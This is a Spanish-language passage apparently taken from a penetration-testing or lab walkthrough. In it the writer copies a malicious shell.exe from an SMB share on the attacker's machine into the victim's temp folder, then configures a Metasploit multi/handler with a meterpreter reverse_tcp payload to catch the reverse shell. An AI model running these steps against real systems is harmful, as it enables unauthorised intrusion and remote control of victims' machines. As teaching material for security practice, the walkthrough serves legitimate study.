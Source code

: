 Sustituyendo `<PID>` por el ID del proceso.

----
Ahora desde la máquina victima tendríamos que ubicarnos dentro de un directorio que tenga permisos de escritura para podernos bajarnos el archivo `shell.exe` malicioso

Regresamos de directorios hasta llegar a la raiz y situarnos en la carpeta temporal `temp` 
Desde aquí nosotros tenemos poder de escritura y desde aquí podremos bajarnos ese archivo `shell.exe`

Nos copiamos el archivo en el directorio actual de trabajo de la siguiente manera: 

```bash
copy \\1.2.3.4\recurso\shell.exe shell.exe
```

Ahora si hacemos un `dir` veremos que se a descargado con exito 

---

ahora en nuestro Kali Linux desde la consola nos abrimos metasploit 
```bash
msfconsole
```

Y nos pondremos en escucha para poder recibir el meterpreter 

Una vez dentro ejecutamos:

```bash
use multi/handler
```

Esto nos permite ponernos en escucha en handler que tiene metasploit 
Ahora vemos las configuraciones con 

```python
show options
```

Y vemos que debemos asignar nuestra dirección ip para poder recibir la conexión 

```python
set LHOST 1.2.3.4
```

Ahora le asignamos el puerto que le hayamos especificado a `msfvenom` cuando hemos creado el archivo malicioso 

```python
set LPORT 444
```

Finalmente le asignamos la ruta del payload que hemos creado, ya que esto es muy importante para que funcione 

```python
set PAYLOAD windows/meterpreter/reverse_tcp
```

Con todo esto listo podemos ejecutar y recibir la conexión de meterpreter 
